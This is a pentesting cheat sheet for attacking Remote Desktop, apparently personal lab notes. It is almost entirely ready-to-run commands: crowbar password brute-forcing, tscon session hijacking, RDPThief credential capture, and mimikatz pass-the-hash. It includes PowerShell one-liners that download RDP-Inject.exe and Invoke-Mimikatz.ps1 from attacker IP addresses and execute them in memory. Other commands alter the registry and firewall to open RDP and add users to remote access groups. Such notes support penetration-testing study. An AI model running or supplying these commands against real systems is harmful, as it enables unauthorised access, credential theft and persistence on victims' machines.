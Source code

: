 # Pentesting RDP

### CROWBAR

* Remote desktop protocol with Crowbar
  * Crowbar is a network authentication cracking tool

```
sudo apt install crowbar
```

* Make a suitable wordlist
* Attempt to bruteforce RDP

```
crowbar -b rdp -s $host/32 -u admin -C /usr/share/wordlist/rockyou.txt -n 1 -v 
# -b protocol # -s target server 
# -n number of threads (RDP doesnt reliably handle multiple threads)
```

* If errors are encountered like: File Not Found, convert the wordlist to UTF-8

```
iconv -f ISO-8859-1 -t UTF-8 /usr/share/wordlists/rockyou.txt > rockyou_utf8.txt
```

### RDP Session Hijacking

* Must have SYSTEM privs

```
query user
```

* https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon&#x20;

```
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME} 
sc.exe create sessionhijack binpath= "cmd.exe /k tscon 1 /dest:rdp-tcp#0" 
net start sessionhijack
```

### SHARP RDP

```
SharpRDP.exe computername=appsrv01 command="powershell -c IEX" username=corp\dave password=lab
```

### RDP Thief&#x20;

* `rdpthief.dll` must be on the local machine
* Modify C# source with the location of the hidden `RDPThief.dll` on disk
* C# RDP-Inject.exe runs in a while loop and injects into each RDP process in order to capture credentials from RDP
* Dump captured credentials&#x20;

```
type C:\Users\User\AppData\Local\Temp\3\data.bin
```

```
$wc = New-Object System.Net.WebClient; $wc.Headers['User-Agent'] = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome; $data = $wc.DownloadData('http://192.168.49.124/RDP-Inject.exe');$assem = [System.Reflection.Assembly]::Load($data);$entryPointMethod = $assem.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic');$entryPointMethod.Invoke($null, (, [string[]] ('foo', 'bar')))
```

* The above command pulls RDP-Thief from a remote webserver and loads it via powershell reflection. Ensure you update the arguments in the above command

### Screenshot the Desktop

* You can take a screenshot of the desktop if NLA is disabled&#x20;
* with `netexec`

```
--nla-screenshot
--screenshot
--screentime SCREENTIME
```

* Resolution with WxH Default 1024x768

```
--res RES
```

### Enable RDP via Crackmapexec

```
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M rdp --options 
crackmapexec smb 10.129.203.121 -u julio -p Password1 -M rdp -o ACTION=enable
```

### Enable RDP via Registry

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f 
netsh advfirewall firewall add rule name=3389 protocol=TCP dir=in localip=any localport=3389 action=allow
```

### Enable RDP access for user

```
net localgroup "Remote Desktop Users" joe /add
```

```
Add-LocalGroupMember -Group 'Remote Desktop Users' -Member robert.lanza 
powershell -c 'Add-LocalGroupMember -Group "Remote Desktop Users" -Member john' 
powershell -c 'Add-LocalGroupMember -Group "Remote Desktop Users" -Member alice'
```

### Remove Remote Desktop Access for user

```
Remove-LocalGroupMember -Group "Remote Desktop Users" -Member robert.lanza
```

### If PTH is Disabled

* Enable Restricted admin

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### RDesktop

## RDESKTOP

```
rdesktop 10.11.1.13 -u xxx -p xxx rdesktop 10.129.131.50 -u htb-student -p 'HTB_@cademy_stdnt!'
```

* Mount folders using RDesktop

```
rdesktop 10.129.131.50 -u htb-student -p 'HTB_@cademy_stdnt!' -r disk:linux='~/tools'
```

### XFreeRDP

```
xfreerdp /v:$host /u:administrator /cert:ignore xfreerdp /v:10.11.1.31 /u:sa /p:poiuytrewq /cert:ignore
```

* All security certificates should be ignored&#x20;

```
xfreerdp /v:10.129.131.50 /u:htb-student /p:'HTB_@cademy_stdnt!' /dynamic-resolution
xfreerdp /v:10.11.1.247 /port:1234 /u:brett /p:ilovesecuritytoo
```

* Mount a folder on our attacker machine to the target machine

```
mkdir /tmp/filetransfer
xfreerdp /v:10.129.131.50 /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:~/tools
```

```
# ERROR: If you encounter the below error add the below switch
`[ERROR][com.freerdp.core] - transport_connect_tls:freerdp_set_last_error_ex ERRCONNECT_TLS_CONNECT_FAILED`
/tls-seclevel:0
```

* Some other xfreerdp commands with options that have been helpful in the past

```
xfreerdp /v:manageengine /u:Administrator /p:studentlab /cert:ignore /tls-seclevel:0 /timeout:80000 /size:1920x1010 /scale:50
xfreerdp /u:blwasp /p:'Password123!' /v:10.129.230.38 /dynamic-resolution /drive:.,linux /bpp:8 /compression -themes -wallpaper /clipboard /audio-mode:0 /auto-reconnect -glyph-cache
```

### Pass The Hash RDP

```
xfreerdp /u:domain\username /pth: /v:$host
```

* If PTH is disabled, enable restricted admin

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```

### PTH RDP From a Windows machine

```
sekurlsa::pth /user:admin /domain:corp1 /ntlm: /run:"mstsc.exe /restrictedadmin"

$wc = New-Object System.Net.WebClient; $wc.Headers['User-Agent'] = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome; $wc.DownloadString('http://192.168.49.120/Invoke-Mimikatz.ps1') | IEX
Invoke-Mimikatz -Command '"sekurlsa::pth /user:admin /domain:corp1 /ntlm: /run:mstsc.exe /restrictedadmin"'
```

### Nmap

```
nmap -sV -sC 10.129.201.248 -p3389 --script rdp*
```

### RDP Security Check

```
sudo cpan 
install Encoding::BER 
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check 
./rdp-sec-check.pl $host
```
